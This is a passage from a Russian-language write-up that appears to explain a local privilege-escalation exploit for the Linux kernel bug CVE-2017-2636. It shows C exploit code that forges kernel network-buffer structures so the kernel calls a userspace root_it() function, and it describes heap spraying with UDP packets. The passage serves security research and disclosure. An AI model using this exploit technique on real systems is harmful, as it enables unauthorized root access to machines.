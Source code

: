 Итак, взглянем на код функции `init_payload()`:

{% highlight c %}
#define MMAP_ADDR		0x10000lu
#define PAYLOAD_SZ		8100
#define SKB_END_OFFSET		7872
#define KEY_DATA_OFFSET		18

int init_payload(char *p)
{
	struct skb_shared_info *info = (struct skb_shared_info *)(p +
					SKB_END_OFFSET - KEY_DATA_OFFSET);
	struct ubuf_info *uinfo_p = NULL;
{% endhighlight %}

Определение структур `skb_shared_info` и `ubuf_info` скопировано в код эксплойта из соответствующего заголовочного файла ядра ([`include/linux/skbuff.h`][24]).

Буфер с полезной нагрузкой будет передан системному вызову `add_key` в качестве параметра. Данные, которые расположены в нем по отступу `7872 - 18 = 7854` байт, наложатся на структуру `skb_shared_info` перезаписываемого сетевого пакета.

{% highlight c %}
	char *area = NULL;
	void *target_addr = (void *)(MMAP_ADDR);

	area = mmap(target_addr, 0x1000, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (area != target_addr) {
		perror("[-] mmap\n");
		return EXIT_FAILURE;
	}

	uinfo_p = target_addr;
	uinfo_p->callback = (uint64_t)root_it;

	info->destructor_arg = (uint64_t)uinfo_p;
	info->tx_flags = SKBTX_DEV_ZEROCOPY;
{% endhighlight %}

Если в `skb_shared_info.tx_flags` взведен флаг `SKBTX_DEV_ZEROCOPY`, то при выполнении [`skb_release_data()`][25] будет вызвана функция с адресом в `ubuf_info.callback`. В нашем случае экземпляр `ubuf_info` располагается в пользовательском пространстве, поэтому обращение к нему из пространства ядра будет обнаружено механизмом SMAP.

Как бы то ни было, теперь `callback` указывает на функцию `root_it()`, в которой выполняется классическое `commit_creds(prepare_kernel_cred(0))`. Код данной функции также расположен пользовательском пространстве, а значит его исполнение из Ring 0 обнаруживается механизмом SMEP, обход которого будет показан ниже.

# Атака и стабилизация

Как было упомянуто, функция `n_hdlc_release()` освобождает тринадцать буферов `n_hdlc_buf` при закрытии псевдотерминала. Функция `exploit_skb()` вызывается вскоре после этого. В ней мы выполняем heap spraying, посылая двадцать UDP пакетов размером 7500 байт. Было экспериментально установлено, что пакеты номер 12, 13, 14 и 15 с высокой вероятностью будут эксплуатируемы, поэтому они посылаются на специальный серверный сокет.


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[21.1]: https://ru.wikipedia.org/wiki/Heap_spraying
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/
